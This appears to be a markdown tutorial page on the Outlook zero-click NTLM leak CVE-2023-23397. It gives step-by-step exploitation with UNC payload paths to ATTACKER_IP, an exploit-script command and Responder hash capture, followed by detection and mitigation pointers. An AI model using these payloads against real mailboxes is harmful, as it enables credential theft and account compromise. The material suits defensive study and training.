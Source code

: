 ## Outlook NTLM Leak CVE-2023-23397

### Tools: Responder, Outlook Appointment Alerts, OutlookSpy Plugin

Link: https://github.com/Trackflaw/CVE-2023-23397

### Affects all version of the Outlook desktop app on any Windows System.

### Exploit method: Zero-click

### Explanation:

#### 1) When sending calendar invitations, it is possible to add reminder notifications.

#### Go to the "reminder sound: at reminder tab.

#### 2) You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event.

## Abusing reminder sounds via UNC paths (Universal Naming Convention)

### Payload example:

#### 1) \\ATTACKER_IP\foo\bar.wav

#### 2) \\ATTACKER_IP@80\foo\bar.wav

#### 3) \\ATTACKER_IP@443\foo\bar.wav

### 2 and 3 examples are alternatives to SMB protocol that use HTTP and HTTPS to retrieve the file from a WebDAV enabled webserver.

### Exploitation:

#### 1) Generate .msg file

    python3 CVE-2023-23397.py --path '\\ATK_IP'

#### 2) Run responder/Inveigh to intercept NTLM hash before sending the email
    
    sudo responder -I INTERFACE

#### 1) 

    sudo responder -I INTERFACE

#### 2) On our outlook client, click the calendar, then new appointment to create one.

#### 3) Set the reminder to 0 minutes so that it triggers right after the victim receives it.

#### 4) Click on the sound option to configure the reminder's sound file

#### 5) Set the sound file path to a UNC that points to us \\OUR_IP\nonexistent\whatever.wav then click OK

#### 6) Install OutlookSpy* (Since the previous steps usually won't work as we want) *Close Outlook before installing the plugin

#### 7) Open Outlook, then go to OutlookSpy and then the CurrentItem button (within the appointment)to view our appointment 

#### 8) Set the ReminderSoundFile parameter to the UNC path that points to us, then set both ReminderOverrideDefault and ReminderPlaySound to true using the script tab.

#### 9) Click run to apply the changes.

#### 10) Go back to properties tab to verify the values were correctly changed.

#### 11) Save our appointment to add it to our calendar, then adjust the time, date and reminder trigger accordingly.

## Detection:

#### 1) Sigma rules: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_susp_execution.yml

#### 2) YARA rules

#### 3) Powershell script: https://microsoft.github.io/CSS-Exchange/Security/CVE-2023-23397/

## Mitigation:

#### 1) Add users to the Protected Users Security Group, which prevents using NTLM as an authentication mechanism

#### 2) Block TCP 445/SMB outbound from your network to avoid any post-exploitation connection.

#### 3) Use the PowerShell script released by Microsoft to scan against the Exchange server to detect any attack attempt.

#### 4) Disable WebClient service to avoid webdav connection.
